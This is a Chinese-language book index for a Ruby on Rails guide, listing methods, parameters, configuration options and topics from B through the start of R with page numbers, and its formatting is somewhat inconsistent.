    - `:only` 参数, 386
- `before_invocation()` 方法, 505
    - `:except` 参数, 505
    - `:only` 参数, 505
- `before_save()` 方法, 332
- `_before_type_cast`, 254
- `before_update()` 方法, 332
- `before_validation()` 方法, 332
- `before_validation_on_create()` 方法, 332
- `before_validation_on_update()` 方法, 332
- `begin` 语句, 540
- `belongs_to()` 方法, 139, 281, 282, 287, 308
    - `:conditions` 参数, 283
    - `:counter_cache` 参数, 298
    - `:foreign_key` 参数, 283
- 基准测试脚本, 227
- `Benchmark.realtime()` 方法, 217
- Berners-Lee, Sir Tim, 397
- 绑定变量（SQL）, 512
- `blank?()` 方法, 242, 324
- Blob 列类型, 253
- 代码块（Ruby）, 539
- Blogger, 494
- BlueCloth（格式化）, 410
- `:body` 参数, 412
- 布尔列类型, 253, 254
- 断点, 226, 238
- `breakpointer` 命令, 239
- Breedt, Leon, 493
- Brodwall, Johannes, 522
- 浏览器
    - 后退按钮问题, 477
    - 其中的效果, 462
    - 视觉反馈, 464
- `:buffer_size` 参数, 367
- 业务逻辑（保留在模板之外）, 403
- 业务规则, 9
- `button_to()` 方法, 95, 114, 398, 411
- `bytes()` 方法, 245

## C

- `cache()` 方法, 443, 445
- `cache_sweeper()` 方法, 395
- `caches_action()` 方法, 392
- `caches_page()` 方法, 392
- 缓存, 390–397
    - action, 391
    - 子行计数, 298, 312
    - 子行, 297
    - 过期, 393, 445
    - 文件名, 396
    - fragment, 442–447
    - fragment 命名, 446
    - 会话中的对象, 100
    - 仅在生产环境中, 392, 444
    - 页面, 390
    - 安全问题, 522
    - 已发送的数据, 428
    - 存储选项, 447
    - 存储 fragment
        - 在 DRb 服务器中, 447
        - 在文件中, 447
        - 在 memcached 服务器中, 447
        - 在内存中, 447
    - 扫除器, 394
    - 基于时间的过期, 396
    - 缓存什么, 392
- 回调
    - AJAX, 468
- 购物车
    - 在会话中访问, 100
    - 设计问题, 57
- `:cc` 参数, 412
- `cc` 头（电子邮件）, 482
- `change()` 方法, 246
- Char 列类型, 253
- 字符集（电子邮件）, 482
- `check_box()` 方法, 419
- `:child` 参数, 202
- `:children` 参数, 203
- Clark, Mike, 181
- 类（Ruby）, 529, 533
    - 自动加载, 235
- `:class_name` 参数, 285, 288, 294, 314
- Clob 列类型, 253
- 代码（书籍的代码下载）, 5
- 代码块（Ruby）, 539
- 协作, 4
- 集合
    - 在表单上编辑, 418
    - `:collection` 参数, 437
- 集合（迭代）, 437
- `collection_select()` 方法, 421
- `:cols` 参数, 419
- `columns()` 方法, 252, 340
- `columns_hash()` 方法, 340
- 命令行
    - 从中运行应用程序, 226, 488
- 注释（Ruby）, 531
- `:complete` 参数, 470
- 组件, 439–442
    - 构建侧边栏, 440
    - 为他人打包, 440
- `composed_of()` 方法, 314
    - `:class_name` 参数, 314
    - `:mapping` 参数, 314
- 压缩响应, 387
- `:condition` 参数, 469
- `:conditions` 参数, 264, 266, 283, 285, 288, 294
- 配置, 230–232
    - `config/` 目录, 230
    - 数据库连接, 230
    - `database.yml`, 61, 63
    - 环境, 230
    - 参数, 232, 545–548
    - 设置环境, 230
- 配置参数
    - `asset_host`（Action Controller）, 413
    - `default_charset`（Action Mailer）, 481
    - `DEFAULT_SESSION_OPTIONS`（Action Controller）, 376
    - `default_timezone`（Active Record）, 334
    - `delivery_method`（Action Mailer）, 479

专门为您准备，Leonardo Augusto Pires

### `fragment_cache_store` (Action Controller), **447**

### `lock_optimistically` (Active Record), **476**

### `page_cache_directory` (Action Controller), **397**

### `page_cache_extension` (Action Controller), **397**

### `perform_caching` (Action Controller), **392**

### `perform_deliveries` (Action Mailer), **480**

### `pluralize_table_names` (Active Record), **250**

### `raise_delivery_errors` (Action Mailer), **481**

### `record_timestamps` (Active Record), **334**

### `server_settings` (Action Mailer), **480**

### `template_root` (Action Controller), **364, 400**

### `:confirm` 参数, **411, 468**

### 连接到数据库, **61, 259**

### 控制台命令, **226, 237**

### 常量, **531**

### 构造函数, **530**

### `:content` 参数, **202**

### Content-Type (内容类型), **367, 427**

- 电子邮件, **482**

### `content_for()` 方法, **474**

### `@content_for_layout`, **92, 433**

### 控制结构 (Ruby), **538**

### 控制器 (Controller)

- Action Controller, **18**
- 意外暴露动作, **520**
- 功能, **18**
- 生成, **35, 87**
- 处理请求, **11**
- 索引动作, **88**
- 实例变量, **44**
- 集成到模型和视图, **415**
- 命名约定, **234**
- 职责, **10**
- 子类, **388**
- 子模块, **236, 357**
    - 从模板访问, **401**
    - 在 URL 中, **11, 36, 347**
    - 使用局部模板, **438**

### 控制器属性, **401**

### 约定优于配置, **2, 11, 16, 46, 233, 249**

### Cookies (Cookie), **371–381**

- 与 AJAX 一起使用, **456**
- 过期时间, **372**
- 用于会话, **98**
- 选项, **372**
- 限制访问, **372**
- `_session_id`, **373**
- 易受攻击的漏洞, **513**

### Cookies 属性, **204, 362, 371**

### `:count` 参数, **203**

### `count()` 方法, **269**

### `count_by_sql()` 方法, **269**

### 计数器 (Counter)

- 在局部集合中, **437**

### 计数器缓存, **298**

### `:counter_cache` 参数, **298**

### `:counter_sql` 参数, **288**

### 计数行数, **269**

### 耦合 (Coupling)

- 使用 MVC 降低耦合, **10**

### `create()` 方法, **262, 518**

### 创建新应用程序, **59**

### `created_at`/`created_on` 列, **334, 345**

### 信用卡处理, **137**

### Cron 命令, **381**

### 货币 (Currency)

- 表示问题, **253**
- 使用聚合, **316**

### 客户 (Customer)

- 处理客户, **53**

### `cycle()` 方法, **83**

## D

### 数据传输, **366**

### 数据库 (Database)

- 行为表现为..., **307**
- 适配器, **61**
- 添加列, **71**
- 列名到属性映射, **251**
- 列类型映射, **253**
- 连接到, **61, 230, 259**
- 统计子行数, **298**
- `_count` 列, **299**
- 创建行, **261**
- 使用 `mysqladmin` 创建, **60**
- 创建, **60**
- DB2, **29, 260**
- 嵌入式 SQL, **13**
- 用模型封装, **15**
- Firebird, **29**
- 外键, **277**
- 连接表, **292**
- 遗留模式, **255**
- 将表映射到类, **15, 250**
- 迁移, **65, 67**
- MySQL, **29, 30, 260**
- 在 Tiger 下的问题, **64**
- Oracle, **29, 260**
- `phpMyAdmin`, **65**
- Postgres, **29, 260**
- 预加载子行, **298**
- 主键, **257**
- 将行作为对象, **16**
- Ruby 对象在其中, **256**
- 自引用连接, **294**
- SQL Server, **29, 30, 260**
- SQLite, **30, 260**
- 支持的数据库, **231, 259**
- 表命名, **233, 250**

### `database.yml`, **61, 63, 230, 261**

- 其中的别名, **231**

### `:database_manager` (会话), **477**

### 日期 (Date)

- 列, **253, 334**
- 格式化, **408**
- 邮件头, **483**
- 缩放方法, **245**
- 选择控件, **424**

### `date_select()` 方法, **424**

### `datetime` 列类型, **253**

### `datetime_select()` 方法, **424**

### `days()` 方法, **245**

### DBI (数据库接口), **14, 30**

### Debian 安全漏洞, **515**

### `debug()` 方法, **238, 401, 409**

### 调试 (Debugging)

- 断点, **226, 238**
- 使用控制台, **237**
- 控制台命令, **226**
- `debug()`, **238**
- 显示请求, **401**
- 提示, **237–239**

### Decimal 列类型, **253**

### 声明 (Declarations)

- 解释, **534**
- `acts_as_list` (Active Record), **307**
- `acts_as_tree` (Active Record), **310**
- `after_create` (Active Record), **332**
- `after_destroy` (Active Record), **332**
- `after_find` (Active Record), **334**
- `after_initialize` (Active Record), **334**
- `after_save` (Active Record), **332**
- `after_update` (Active Record), **332**
- `after_validation` (Active Record), **332**
- `after_validation_on_create` (Active Record), **332**
- `after_validation_on_update` (Active Record), **332**
- `attr_protected` (Active Record), **518**
- `before_create` (Active Record), **332**
- `before_destroy` (Active Record), **332**
- `before_save` (Active Record), **332**
- `before_update` (Active Record), **332**
- `before_validation` (Active Record), **332**
- `before_validation_on_create` (Active Record), **332**
- `before_validation_on_update` (Active Record), **332**
- `belongs_to` (Active Record), **281, 282, 287**
- `cache_sweeper` (Action Controller), **395**
- `caches_action` (Action Controller), **392**
- `caches_page` (Action Controller), **392**
- `composed_of` (Active Record), **314**
- `has_and_belongs_to_many` (Active Record), **292**
- `has_many` (Active Record), **287, 290**
- `has_one` (Active Record), **281, 285**
- `helper` (Action Controller), **347, 408**
- `layout` (Action Controller), **434**
- `map.connect` (Routing), **348**
- `model` (Action Controller), **347, 374**
- `observer` (Action Controller), **339, 347**
- `paginate` (Action Controller), **414**
- `serialize` (Active Record), **256**
- `set_primary_key` (Active Record), **258**
- `set_table_name` (Active Record), **250**
- `uses_component_template_root` (Action Controller), **442**
- `validates_acceptance_of` (Validation), **325**
- `validates_associated` (Validation), **326**
- `validates_confirmation_of` (Validation), **326**
- `validates_each` (Validation), **327**
- `validates_exclusion_of` (Validation), **327**
- `validates_format_of` (Validation), **328**
- `validates_inclusion_of` (Validation), **329**
- `validates_length_of` (Validation), **329**
- `validates_numericality_of` (Validation), **330**
- `validates_presence_of` (Validation), **330**
- `validates_uniqueness_of` (Validation), **331**
- `verify` (Action Controller), **389**
- `web_service` (Action Controller), **502**

### `def` 关键字 (方法), **531**

### `default_charset` 配置参数, **481**

### `DEFAULT_SESSION_OPTIONS` 配置参数, **376**

### `default_timezone` 配置参数, **334**

### `default_url_options()` 方法, **358**

### `:delegated` 参数, **502**

### `delete()` 方法, **200, 276, 362, 519**

### DELETE (HTTP 方法), **361**

### `delete_all()` 方法, **276, 519**

### `delivery_method` 配置参数, **479**

### `:dependent` 参数, **285, 288**

### 部署, **524**

### Depot 应用程序, **53**

- 管理, **152**
- 购物车设计问题, **57**
- 目录列表, **87**
- 结账, **136**
- 处理错误, **109**
- 布局, **91**
- 购物车, **97**
- 源代码, **549–571**

### `:descendent` 参数, **203**

### 在 Web 上模拟桌面应用程序, **452**

### `destroy()` 方法, **276, 288, 305, 519**

### destroy 命令, **226**

### `destroy_all()` 方法, **276, 519**

### 开发环境重新加载代码, **43**

### 服务器, **33**

### `development.rb`, **231**

### Digest, **152**

### `:direct` 参数, **502**

### 目录结构, **32, 222**

- 加载路径, **232**
- 测试, **182**

### `:disposition` 参数, **366, 367**

### `do ... end` (代码块), **539**

### `doc/` 目录, **224**

### 文档应用程序, **179**

### Rails, **6**

### DOM 操作, **463–464**

- `$()`, **463**
- `Element.remove()`, **463**
- `Element.show()`, **463**
- `Element.toggle()`, **463**
- `Insertion.After()`, **468**
- `Insertion.Before()`, **468**
- `Insertion.Bottom()`, **467**
- `Insertion.Top()`, **467**

### `domain` 属性, **361**

### Double 列类型, **253**

### `DoubleRenderError` 异常, **363**

### 下载源代码, **5**

### DRb 片段存储, **447**

### 会话存储, **378**

### DRY (不要重复自己), **2, 4**

- 与属性, **251**
- 与组件, **439**
- 与布局, **432**
- 与局部模板, **458**
- 与路由, **352**

### 动态查找器, **270**

### 使用 AJAX 的动态列表, **471**

### 动态 SQL, **265**

### `-e` 选项, **230**

### Echo 服务漏洞, **515**

### `Effect.Appear()` 方法, **465**

### `Effect.Fade()` 方法, **465**

### `Effect.Highlight()` 方法, **465**

### `Effect.Puff()` 方法, **465**

### `Effect.Scale()` 方法, **466**

### `Effect.Squish()` 方法, **465**

### 浏览器中的效果, **462**

### `effects.js`, **464**

### `Element.remove()` 方法, **463**

### `Element.setContentZoom()` 方法, **467**

### `Element.show()` 方法, **463**

### `Element.toggle()` 方法, **463**

### `email.encoded()` 方法, **485**

### 封装数据库, **15**

### `:encode` 参数, **412**

### 加密回调示例, **335**

### `end_form_tag()` 方法, **417**

### `env` 属性, **361**

### `environment.rb`, **231**

### 环境, **230**

- 与缓存, **392, 444**
- 自定义, **230, 231**
- 电子邮件, **179**
- 加载路径, **232**
- 与日志, **225, 237**
- 指定, **230, 231**
- 测试, **184**

### `erase_render_results()` 方法, **363**

### 错误

显示，**112**
在控制器中处理，**109**
在模型中处理，**429**
存储在 flash 中，**110, 382**
验证，**324**
`:error` 参数，**201**
Error（日志级别），**237**
`error_message_on()` 方法，**429**
`error_messages_for()` 方法，**429**
`errors` 属性，**429**
`errors` 对象，**77**
`errors.add()` 方法，**76, 324**
`errors.clear()` 方法，**324**
`errors.on()` 方法，**324, 429**
转义 HTML，**42**
`escape_javascript()` 方法，**471**
`establish_connection()` 方法，**259, 261**
`exabyte()` 方法，**245**
示例代码，**549–571**
`:except` 参数，**386, 505**
Exception
    `rescue`，**111**
    Ruby，**540**
`:exclusively_dependent` 参数，**288**
`:expects` 参数，**496**
`expire_action()` 方法，**393**
`expire_fragment()` 方法，**445, 446**
`expire_page()` 方法，**393**
使缓存内容过期，**393, 445**
使会话过期，**381**
Expression (inline)，**403**

# F

Facade 列，**342**
Fatal（日志级别），**237**
反馈，**53**
    AJAX 进度指示器，**469**
`:file` 参数，**365**
文件自动加载，**235**
文件名约定，**233**
文件传输，**366**
    安全问题，**521**
    上传到应用程序，**425–428**
`file_field()` 方法，**426**
`:filename` 参数，**366, 367**
过滤器，**163, 384–390**
    after，**385**
    around，**388**
    before，**385**
    block，**385**
    与缓存，**391**
    class，**385**
    压缩响应，**387**
    method，**385**
    修改响应，**386**
    排序，**386**
    与子类化，**388**
    终止请求，**385**
    用于验证，**389**
`filter()` 方法，**386**
`find()` 方法，**89, 263, 511, 519**
    `:all` 参数，**89, 265**
    `:conditions` 参数，**264, 266**
    `:first` 参数，**265**
    `:include` 参数，**268, 297**
    `:joins` 参数，**267**
    `:limit` 参数，**267**
    `:offset` 参数，**267**
    `:order` 参数，**267**
Find (dynamic)，**270**
`find_all_tag()` 方法，**205**
`find_by_sql()` 方法，**266, 268, 341, 344**
`find_tag()` 方法，**205**
`:finder_sql` 参数，**288**
`:first` 参数，**265**
`first()` 方法，**309**
Fixnum 扩展，**245**
`fixture_file_upload()` 方法，**205**
`fixtures()` 方法，**189**
Flash，**110, 382–384**
    在其中显示错误，**112**
    在布局中，**383**
    `.keep`，**383**
    `.now`，**383**
    限制，**384**
    测试内容，**197**
`flash` 属性，**197, 204**
平面文件
    会话存储，**379**
Float 列类型，**253**
`follow_redirect()` 方法，**205**
强制重新加载子项，**290**
`:foreign_key` 参数，**283, 285, 288, 294**
表单，**415–432**
    `check_box()`，**419**
    `collection_select()`，**421**
    上的集合，**418**
    数据，**146, 263**
    `date_select()`，**424**
    `datetime_select()`，**424**
    `end_form_tag()`，**417**
    其中的字段，**417**
    `file_field()`，**426**
    `form_tag()`，**417**
    `form_remote_tag()` (AJAX)，**457**
    辅助方法，**417–425**
    `hidden_field()`，**419**
    多部分数据，**425**
    非模型字段，**429–432**
    `option_groups_from_collection_for_select()`，
        **423**
    `password_field()`，**419**
    `radio_button()`，**419**
    参数安全问题，**517**
    `select()`，**420**
    `select_date()`，**424**
    `select_datetime()`，**424**
    `select_day()`，**424**
    `select_hour()`，**424**
    `select_minute()`，**424**
    `select_month()`，**424**
    `select_second()`，**424**
    `select_tag()`，**430**
    `select_time()`，**424**
    `select_year()`，**424**
    从数据库表选择列表，**421**
    带分组的选择列表，**422**
    `start_form_tag()`，**417**
    提交，**415**
    `text_area()`，**419**
    `text_field()`，**419**
    `text_field_tag()`，**430**
    通过其上传文件，**425**
`form_remote_tag()` 方法，**457, 468**
    `:html` 参数，**477**
`form_tag()` 方法，**417**
    `:multipart` 参数，**417, 426**
格式化辅助方法，**408**
`fortnights()` 方法，**245**
`fragment_cache_store` 配置
    参数，**447**
框架和框架集，**451**
Framework，**1**
`:frequency` 参数，**460**
发件人地址（电子邮件），**482**
`from_now()` 方法，**245**
Fuchs, Thomas，**451**

# G

`gem_server`，**6**
generate 命令，**226**
    controller，**35, 87, 157, 236**
    mailer，**481**
    scaffold，**68**
    web_service，**494**
`get()` 方法，**158, 196, 200, 362**
GET（HTTP 方法），**157, 361**
    其问题，**397–399**
Gibson, Joey，**30**
`gigabytes()` 方法，**245**
Google
    Mail, Maps, Suggest，**452**
    Web Accelerator，**397**
`:greater_than` 参数，**204**
选择列表中的分组选项，**422**

# H

`h()` 方法，**43, 83, 89, 405, 514**
`has_and_belongs_to_many()` 方法，**292**
    `:class_name` 参数，**294**
    `:conditions` 参数，**294**
    `:foreign_key` 参数，**294**
`has_many()` 方法，**139, 287, 290**
    `:class_name` 参数，**288**
    `:conditions` 参数，**288**
    `:foreign_key` 参数，**288**
    `:order` 参数，**288**
`has_one()` 方法，**281, 285**
    `:class_name` 参数，**285**
    `:conditions` 参数，**285**
    `:counter_sql` 参数，**288**
    `:dependent` 参数，**285, 288**
    `:exclusively_dependent` 参数，**288**
    `:finder_sql` 参数，**288**
    `:foreign_key` 参数，**285**
    `:order` 参数，**285**
Hash (digest)，**152**
Hash (Ruby)，**537**
    在参数列表中，**538**
`head()` 方法，**200, 362**
HEAD（HTTP 方法），**361**
`headers` 属性，**362, 368, 371, 401**
Headers（请求），**362**
Hello World!，**35**
`helper()` 方法，**347, 408**
`helper_method()` 方法，**408**
辅助方法，**406–408**
    `auto_discovery_link_tag()`，**413**
    `button_to()`，**95**
    `cycle()`，**83**
    `debug()`，**401, 409**
    `error_messages_for()`，**429**
    `escape_javascript()`，**471**
    `h()`，**43, 83, 89, 405, 514**
    `html_escape()`，**405**
    `image_tag()`，**412**
    通过模块实现，**536**
    JavaScript，**454**
    `link_to()`，**48, 94**
    加载，**346**
    `mail_to()`，**412**
    `markdown()`，**411**
    命名约定，**234**
    `sanitize()`，**405, 515**
    共享，**407**
    `stylesheet_link_tag()`，**84, 413**
    `textilize()`，**411**
    `truncate()`，**83**

`hidden_field()` 方法，**419**
    `:maxlength` 参数，**419**
    `:size` 参数，**419**
`hide_action()` 方法，**360**
`higher_item()` 方法，**309**
`:host` 参数，**358**
`hours()` 方法，**245**
`:href` 参数，**477**

HTML
    发送电子邮件，**485**
    转义，**42, 405**
`:html` 参数，**477**
`html_escape()` 方法，**405, 514**

HTTP
    cookies，**371**
    是无状态的，**97**
    重定向，**368**
    请求方法，**157**
    状态（返回），**366**

超链接，**46**

# I

`id`，**11, 101, 257, 278**
    自定义 SQL 与，**344**
    与对象标识，**343**
    模型安全问题，**519**
    会话，**373**
        安全问题，**516**

`id` 列，**345**
IDE（与 Web 服务一起使用），**507**
幂等 GET，**397-399**
标识（模型对象），**343**
Idioms (Ruby)，**541**

`if` 语句，**538**
`iframe`，**451, 454**
图像链接，**412**
`image_tag()` 方法，**412**

`:include` 参数，**268, 297**
增量开发，**53**
`index` 动作，**88, 350**
Info（日志级别），**237**
`initialize()`（Ruby 构造函数），**530**
`:inline` 参数，**364**
内联表达式，**403**
InnoDB，**301**
向页面插入元素 (AJAX)，**467**
`Insertion.After()` 方法，**468**
`Insertion.Before()` 方法，**468**
`Insertion.Bottom()` 方法，**467**
`Insertion.Top()` 方法，**467**
安装 Rails，**19-31**
    更新，**31**
`instance()` 方法，**339**
实例（类的），**529**
实例方法，**530, 534**
实例变量，**44, 530, 534**
Int（整数）列类型，**253**
整数，验证，**330**
拦截方法（Web 服务），**504**
Internet Explorer 漏洞，**516**
`invoke()` 方法，**506**
`invoke_delegated()` 方法，**507**
`invoke_layered()` 方法，**507**
`irb` (interactive Ruby)，**226, 237, 541**
ISP（互联网服务提供商），**31**
迭代子项，**288**
迭代器 (Ruby)，**539**

# J

JavaScript
    `effects.js`，**464**
    转义，**471**
    其中的错误处理，**471**
    JsUnit 用于测试，**476**
    安全问题，**513**
    从服务器发送到浏览器，**470**
    使用 Venkman 测试，**476**

`javascript_include_tag()` 方法，**454**
JavaServer Faces，**11**
`:joins` 参数，**267**
JSP，**403**
JsUnit，**476**

# K

Katz, Bill，**379**
Kilmer, Joyce，**410**
`kilobytes()` 方法，**245**

# L

`last()` 方法，**309**
`last_month()` 方法，**246**
`last_year()` 方法，**246**
`:layered` 参数，**502**

### 布局，**91, 432–442**
    在其中访问 flash，**383**
    `@content_for_layout`，**92**
    禁用，**313**
    使用 AJAX 禁用，**455**
    命名约定，**234**
    传递数据到，**435**
    是否渲染，**366**
    为布局选择动作，**434**
`:layout` 参数，**366, 435, 456**
`layout()` 方法，**434**
`less` 命令，**111**
`:less_than` 参数，**204**
`lib/` 目录，**224**
模型对象的生命周期，**331**
`lighttpd`，**230**
`:limit` 参数，**267**
`link_to()` 方法，**48, 94, 398, 411**
    `:confirm` 参数，**411**
`link_to_remote()` 方法，**455, 456, 468**
    `:before` 参数，**469**
    `:complete` 参数，**470**
    `:condition` 参数，**469**
    `:confirm` 参数，**468**
    `:href` 参数，**477**
`link_to_unless_current()` 方法，**411**

### 链接页面，**46, 352–358, 411–413**
    副作用问题，**397–399**
    样式表，**413**
    使用图像，**412**
    使用 `XMLHttpRequest`，**455**

列表（使表表现为），**307**
列表（表单上的选择），**419**
列表（使用 AJAX 更新），**471**
加载路径，**232**
`lock_optimistically` 配置参数，**276**
`lock_version` 列，**275, 345**
锁定，**274**
`log/` 目录，**225**
`logger` 属性，**362**

### 日志记录，**110, 225, 237**
    与环境，**237**
    级别，**237**
    `logger` 对象，**362**
    使用过滤器，**384**

登录，**152**
    授权用户，**163**
`lower_item()` 方法，**309**
Luetke, Tobias，**137**

## M

Mac OS X
    修复其 Ruby 问题，**29**
魔法列名，**345**
`mail_to()` 方法，**412**
    `:bcc` 参数，**412**
    `:cc` 参数，**412**
    `:encode` 参数，**412**
`map.connect()` 方法，**348**
`:mapping` 参数，**314**
`markdown()` 方法，**411**
Markdown（格式），**410**
`:maxlength` 参数，**419**
`megabytes()` 方法，**245**
memcached
    片段存储，**447**
    会话存储，**378**
metaWeblog，**494**
`method` 属性，**361**
方法拦截（Web 服务），**504**
方法 (Ruby)，**531**
`midnight()` 方法，**246**
`minutes()` 方法，**245**
`:missing` 参数，**201**
Mix in（模块），**536**
混合大小写，**233**
模拟对象，**232**

### 模型
    聚合对象，**313**
    属性，**251, 253, 340, 417**
    作为数据库的封装，**15**
    错误处理，**429**
    来自联接，**295**
    集成到控制器和视图，**415**
    生命周期，**331**
    加载，**346**
    职责，**9**
    安全，**519**
    与表命名，**250**
    与事务，**303**
`model()` 方法，**347, 374**
模块（用于控制器），**236, 357**
模块 (Ruby)，**536**
`monday()` 方法，**246**
`months()` 方法，**245**

## M

`months_ago()` 方法，**246**

`months_since()` 方法，**246**

`move_higher()` 方法，**309**

`move_lower()` 方法，**309**

`move_to_bottom()` 方法，**309**

`move_to_top()` 方法，**309**

`:multipart` 参数，**417**，**426**

Multipart 表单数据，**425**

MVC，**1**，**9–18**

- 降低耦合度，**10**
- 在 Rails 中集成，**415**

`mysqladmin`，**60**

## N

命名路由，**359**

名称（SQL 中的占位符），**265**

命名约定，**233–237**

- `belongs_to`，**283**
- 组件，**440**
- 控制器，**234**
- 控制器模块，**236**
- 文件名，**233**
- `has_one`，**285**
- 辅助方法，**234**，**407**
- 连接表，**279**
- 布局，**234**，**433**
- 模型，**233**，**250**
- 观察者，**339**
- 封装组件，**442**
- 局部模板，**436**
- Ruby 类、方法和变量，**531**
- 共享局部模板，**438**
- 表，**230**
- 模板，**363**，**400**
- 视图，**234**

.NET（与 Web 服务集成），**494**，**507**

`new()`（Ruby 构造函数），**530**

`new_record()` 方法，**322**

`next_week()` 方法，**246**

`next_year()` 方法，**246**

`nil`，**537**

`:nothing` 参数，**365**

数字

- 扩展，**245**
- 格式化，**408**
- 验证，**75**，**330**

数值列类型，**253**

## O

对象

- 标识，**343**
- Ruby，**529**
- 使用 marshaling 序列化，**540**

`observe()` 方法，**339**

`observe_field()` 方法，**460**

- `:frequency` 参数，**460**
- `:update` 参数，**460**

观察者

- AJAX，**459**

`observer()` 方法，**339**，**347**

`:offset` 参数，**267**

`:only` 参数，**204**，**386**，**505**

`:only_path` 参数，**358**

开放式 Web 应用程序安全项目，**510**

乐观锁，**274**，**345**

`option_groups_from_collection_for_select()` 方法，**423**

`:order` 参数，**267**，**285**，**288**，**311**

原始文件名（上传），**427**

ORM，**15–16**，**249**

- Active Record，**16**
- 映射，**15**

OS X

- 修复 Ruby 问题，**29**

`:overwrite_params` 参数，**355**

## P

页面

- 导航，**46**
- Depot 应用程序，**55**
- 动态更新，**452**

页面缓存，**390**，**442**

`page_cache_directory` 配置参数，**397**

`page_cache_extension` 配置参数，**397**

`paginate()` 方法，**414**

分页，**413–415**

- `pagination_links()`，**414**

`pagination_links()` 方法，**414**

参数安全问题，**517**

参数

- `:action` (render)，**364**
- `:after` (assert_tag)，**203**
- `:all` (find)，**89**，**265**
- `:ancestor` (assert_tag)，**203**
- `:anchor` (url_for)，**358**
- `:attributes` (assert_tag)，**202**
- `:bcc` (mail_to)，**412**
- `:before` (link_to_remote)，**469**
- `:body` (subject)，**412**
- `:buffer_size` (send_file)，**367**
- `:cc` (mail_to)，**412**
- `:child` (assert_tag)，**202**
- `:children` (assert_tag)，**203**
- `:class_name` (composed_of)，**314**
- `:class_name` (has_and_belongs_to_many)，**294**
- `:class_name` (has_many)，**288**
- `:class_name` (has_one)，**285**
- `:collection` (render)，**437**
- `:cols` (text_area)，**419**
- `:complete` (link_to_remote)，**470**
- `:condition` (link_to_remote)，**469**
- `:conditions` (belongs_to)，**283**
- `:conditions` (find)，**264**，**266**
- `:conditions` (has_and_belongs_to_many)，**294**
- `:conditions` (has_many)，**288**
- `:conditions` (has_one)，**285**
- `:confirm` (link_to)，**411**
- `:confirm` (link_to_remote)，**468**
- `:content` (assert_tag)，**202**
- `:count` (assert_tag)，**203**
- `:counter_cache` (belongs_to)，**298**
- `:counter_sql` (has_one)，**288**
- `:delegated` (web_service_dispatching_mode)，**502**
- `:dependent` (has_one)，**285**，**288**
- `:descendent` (assert_tag)，**203**
- `:direct` (web_service_dispatching_mode)，**502**
- `:disposition` (send_data)，**366**
- `:disposition` (send_file)，**367**
- `:encode` (mail_to)，**410**
- `:error` (assert_response)，**201**
- `:except` (after_filter)，**386**
- `:except` (after_invocation)，**505**
- `:except` (before_invocation)，**505**
- `:exclusively_dependent` (has_one)，**288**
- `:expects` (api_method)，**496**
- `:file` (render)，**365**
- `:filename` (send_data)，**366**
- `:filename` (send_file)，**367**
- `:finder_sql` (has_one)，**288**
- `:first` (find)，**264**
- `:foreign_key` (belongs_to)，**283**
- `:foreign_key` (has_and_belongs_to_many)，**294**
- `:foreign_key` (has_many)，**288**
- `:foreign_key` (has_one)，**285**
- `:frequency` (observe_field)，**460**
- `:greater_than` (assert_tag)，**204**
- `:host` (url_for)，**358**
- `:href` (link_to_remote)，**477**
- `:html` (form_remote_tag)，**477**
- `:include` (find)，**268**，**297**
- `:inline` (render)，**364**
- `:joins` (find)，**267**
- `:layered` (web_service_dispatching_mode)，**502**
- `:layout` (render)，**366**，**435**，**455**
- `:less_than` (assert_tag)，**204**
- `:limit` (find)，**267**
- `:mapping` (composed_of)，**314**
- `:maxlength` (hidden_field)，**419**
- `:maxlength` (password_field)，**419**
- `:maxlength` (text_field)，**419**
- `:missing` (assert_response)，**201**
- `:multipart` (form_tag)，**417**，**426**
- `:nothing` (render)，**365**
- `:offset` (find)，**267**
- `:only` (after_filter)，**386**
- `:only` (after_invocation)，**505**
- `:only` (assert_tag)，**204**
- `:only` (before_filter)，**386**
- `:only` (before_invocation)，**505**
- `:only_path` (url_for)，**358**
- `:order` (acts_as_tree)，**311**
- `:order` (find)，**267**
- `:order` (has_many)，**288**
- `:order` (has_one)，**285**
- `:overwrite_params` (url_for)，**355**
- `:parent` (assert_tag)，**202**
- `:partial` (render)，**365**，**436–438**
- `:protocol` (url_for)，**358**
- `:redirect` (assert_response)，**201**
- `:remote_autocomplete` (text_field)，**470**
- `:returns` (api_method)，**496**
- `:rows` (text_area)，**419**
- `:scope` (acts_as_list)，**308**
- `:sibling` (assert_tag)，**203**
- `:size` (hidden_field)，**419**
- `:size` (password_field)，**419**
- `:size` (text_field)，**419**
- `:spacer_template` (render)，**437**
- `:status` (render)，**366**
- `:streaming` (send_file)，**367**
- `:success` (assert_response)，**201**
- `:tag` (assert_tag)，**202**
- `:template` (render)，**365**
- `:text` (render)，**364**
- `:trailing_slash` (url_for)，**358**
- `:type` (send_data)，**366**
- `:type` (send_file)，**367**
- `:update` (observe_field)，**460**

预加载子行，**298**

`prepend_after_filter()` 方法，**386**

`prepend_before_filter()` 方法，**386**

主键，**257**，**343**

私有方法，**535**

- 使用此方法隐藏 action，**100**

私有方法 gsub 错误，**372**

`process()` 方法，**348**

`production.rb`，**231**

性能分析，**217**

`profile` 命令，**227**

Programming Ruby，**529**

进度指示器，**469**

项目

- 自动重载，**43**
- 创建，**32**，**59**
- 增量式开发，**53**

`prototype.js`，**462**

模式匹配，**538**

PStore

- 会话存储，**377**

`perform_caching` 配置参数，**392**

`public` 目录，**225**

纯粹主义者

- 无端贬低，**17**，**404**

性能

- 基准测试，**227**
- 缓存子行，**297**
- 缓存页面和 action，**390**
- 计数器缓存，**298**
- 性能分析，**217**，**227**
- 竞态条件，**274**
- 扩展选项，**379**
- 会话存储选项，**379**

周期性清理器，**381**

使用 AJAX 进行周期性更新，**461**

`periodically_call_remote()` 方法，**461**

悲观锁，**274**

`petabyte()` 方法，**245**

`phpMyAdmin`，**65**

PickAxe（Programming Ruby），**529**

占位符（在 SQL 中），**265**

- 命名的，**265**

复数（表名），**233**，**235**，**250**

`pluralize()` 方法，**243**

`pluralize_table_names` 配置参数，**250**

端口（开发服务器），**34**，**69**

`position` 列，**308**

`post()` 方法，**158**，**200**，**362**

POST（HTTP 方法），**157**，**361**，**415**

`pp` 库，**252**

密码（存储），**152**

`password_field()` 方法，**419**

`protected` 关键字，**75**，**535**

`params` 属性，**102**，**265**，**362**，**401**，**415**

`:parent` 参数，**202**

`parent_id` 列，**310**，**345**

`:partial` 参数，**365**，**436–438**

`:maxlength` 参数，**419**

`:protocol` 参数，**358**

`:size` 参数，**419**

`push_with_attributes()` 方法，**294**

`put()` 方法，**200**，**362**

PUT（HTTP 方法），**361**

`puts()` 方法，**532**

## R

竞态条件，**274**

`radio_button()` 方法，**419**

Rails

- 与单表继承，**323**
- AJAX 支持，**454**
